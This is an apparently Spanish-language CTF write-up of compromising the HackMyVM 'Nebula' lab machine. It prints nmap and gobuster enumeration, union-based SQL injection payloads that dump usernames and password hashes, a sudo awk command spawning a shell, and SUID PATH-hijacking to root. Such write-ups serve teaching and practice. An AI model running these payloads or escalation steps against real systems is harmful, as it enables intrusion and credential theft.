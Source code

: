 ```yaml
---
layout: post
title: HackMyWM Nebula - Union-Based SQLi, awk abuse y PATH hijacking
author: c4rta
date: 2024-01-11
tags: [HackMyWM, Union-Based SQL injection]
image: /assets/img/nebula/waifu.jpg
---
```


## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22 y 80

```ruby
nmap -sS -n -Pn -T4 --open -p- 192.168.1.81
```

 - sS: haga un TCP SYN Scan el cual hace que el destino responda con un RST si el puerto esta cerrado, o con un SYN/ACK si esta abierto, y ademas para que vaya mas rapido

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing 

Haciendo uso de gobuster para enumerar directorios mediante fuerza bruta, nos encontramos con **img**, **login** y **joinus**

```ruby
gobuster dir -u http://192.168.1.81/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

```ruby
/img                  (Status: 301) [Size: 310] [--> http://192.168.1.81/img/]
/login                (Status: 301) [Size: 312] [--> http://192.168.1.81/login/]
/joinus               (Status: 301) [Size: 313] [--> http://192.168.1.81/joinus/]
```

En el recurso **/joinus**  encontramos una seria de pasos para unirnos a "Nebula Labs":

![](/assets/img/nebula/1.png)

Si hacemos click en el hipervinculo **here** nos manda a la URL: **http://192.168.1.81/joinus/application_form.pdf**

Bajando un poco nos encontraremos unas credenciales filtradas:

![](/assets/img/nebula/2.png)

Si las probamos en el login anteriormente descubierto vamos a poder iniciar sesion como admin

Al darle click en el boton **Search Centrals** nos mandara a una pagina donde podremos buscar por ID

![](/assets/img/nebula/3_000.png)

Al ver la URL generada despues de hacer una busqueda, podrimos intentar una SQLi: **http://192.168.1.81/login/search_central.php?id=2**

## Union-Based SQL injection

**SQLi:** Vulnerabilidad que consiste en la inyeccion de consultas SQL maliciosas a travez de la entrada de un usuario a una base de datos con el fin de modificar el comportamiento de la consulta final

Vamos a probar un payload: **search_central.php?id=2' or 1=1-- -** y como resultado vamos a poder ver todos los datos de la tabla actual

![](/assets/img/nebula/4.png)

Una vez que tenemos una SQLi, es importante saber el numero de columnas, en este caso, se puede deducir que es 3 (id, role, username), sin embargo, la manera de hacerlo es haciendo uso de la sentencia **order by**: ' ORDER BY 3-- -, la cual hace un ordenamiento de los datos basandose en el numero que indiquemos. Sabremos el numero de columnas correcto cuando nos muestre los datos el encontrar el numero correcto, como se observa en la URL y en la tabla

![](/assets/img/nebula/5.png)

Ahora vamos a probar una inyeccion basada en union: **search_central.php?id=2' UNION SELECT 1,2,3-- -**. Sabremos que es una inyeccion union-based cuando los datos de la segunda consulta se muestran en el resultado, en este caso se muestran los numeros 1, 2, 3

![](/assets/img/nebula/6.png)

#### Enumerar bases de datos

    information_schema: es una base de datos que contiene informacion de otras bases de datos

Para enumerar bases de datos podemos usar **information_schema.schemata** e indicarle que queremos selecionar la columna **schema_name** que contiene el nombre de las bases de datos

```ruby
search_central.php?id=2' UNION SELECT schema_name, null, null FROM information_schema.schemata-- -
```

Podemos ver la base de datos **nebuladb**

![](/assets/img/nebula/7.png)

#### Enumerar tablas

    table_name: Contiene informacion de las tablas de la base de datos que se indique en table_schema (nombre de la DB)

Para enumerar tablas usaremos el siguiente payload que selecionara la columna  **table_name** de la base de datos que se indique en **table_schema**

```ruby
search_central.php?id=1'  UNION SELECT table_name, 2, 3 FROM information_schema.tables WHERE table_schema="nebuladb"-- -
```

Podemos ver las tablas

![](/assets/img/nebula/tablas.png)

#### Enumerar columnas

    column_name: Contiene informacion de las columnas de la tabla que se indique en "table_name" de la base de datos "table_schema"

Para enumerar las columnas selecionarmos la columna **column_name** de **information_schema.columns** y le indicaremos la base de datos **nebuladb** y la tabla **users**

```ruby
search_central.php?id=1' UNION SELECT column_name, 2, 3 FROM information_schema.columns WHERE table_schema="nebuladb" AND table_name="users"-- -
```

Podemos ver las columnas **username** y **password**

![](/assets/img/nebula/8.png)

#### Dumpear datos

Para seleccionar los datos de las tablas, es comun usar **CONCAT** para no sobrepasar el numero de columnas de la tabla que esta siendo usada. Pero en este caso podemos hacerlo directamente 

```ruby
' UNION SELECT CONCAT(username, password), 2, 3 FROM nebuladb.users-- -        CONCAT
```

```ruby
' UNION SELECT username, password, 3 FROM nebuladb.users-- -            NORMAL
```

Podemos ver los usuarios y sus hashes:

![](/assets/img/nebula/10.png)

Despues de probar los usuarios y contraseñas, podemos acceder via ssh como el usuario **pmccentral** y su contraseña (esta hasheada y es md5)

## pmccentral  -> laboratoryadmin (awk abuse)

Mirando los permisos a nivel de sudoers nos podemos dar cuenta que podemos ejecutar **awk** como **laboratoryadmin**, haciendo una busqueda rapida de GTFOBins, encontramos una forma de conseguir una shell ingresando el siguiente comando

```bash
sudo -u laboratoryadmin /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

## Escalada de privilegios (PATH hijacking)

Si miramos los permisos SUID, encontraremos el  archivo **PMCEmployees**

```bash
find / -perm -u=s -type f 2>/dev/null
```

```ruby
/home/laboratoryadmin/autoScripts/PMCEmployees
```

Si entramos el directorio **autoScripts** encontraremos un archivo llamado **head** que ejecuta **bash -p**

Si usamos el comando file veremos que **PMCEmployees** es un binario de 64 bits

```ruby
PMCEmployees: setuid ELF 64-bit
```

Usando **strings ./PMCEmployees** encontramos que se este ejecutando el comando **head** desde una ruta relativa:

```ruby
head /home/pmccentral/documents/employees.txt
```
Lo cual es un gran indicio de **PATH hijacking**

1. Primero crearemos el archivo **employees.txt**
2. Despues exportaremos la ruta acual al PATH: **export PATH=/home/laboratoryadmin/autoScripts:$PATH**
3. Y por ultimo ejecutamos el binario de nuevo y seremos root

![](/assets/img/nebula/11.png)

Eso ha sido todo, gracias por leer ❤